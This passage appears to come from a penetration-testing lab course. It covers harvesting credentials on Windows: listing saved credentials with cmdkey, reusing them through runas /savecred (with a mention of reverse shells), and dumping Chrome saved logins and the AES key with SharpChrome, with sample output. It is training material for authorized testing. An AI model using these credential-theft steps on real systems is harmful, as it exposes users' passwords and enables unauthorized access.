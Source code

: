 There are many other techniques we can use to potentially obtain credentials on a Windows system. This section will not cover every possible scenario, but we will walk through the most common scenarios.

## Cmdkey Saved Credentials

### Listing Saved Credentials

The [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) can be used to create, list, and delete stored usernames and passwords. Users may wish to save credentials for a specific host or use it for terminal services connections to connect to a remote host using Remote Desktop without needing to enter a password. This may help us either move laterally to another system with a different user or escalate privileges on the current host to leverage stored credentials for another user.
```cmd-session
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

When we attempt to RDP to the host, the saved credentials will be used.
![[cmdkey_rdp.webp]]

We can also attempt to reuse the credentials using `runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console with a command such as:

### Run Commands as Another User
```powershell-session
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

## Browser Credentials

### Retrieving Saved Credentials from Chrome

Users often store credentials in their browsers for applications that they frequently visit. We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.
```powershell-session
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
```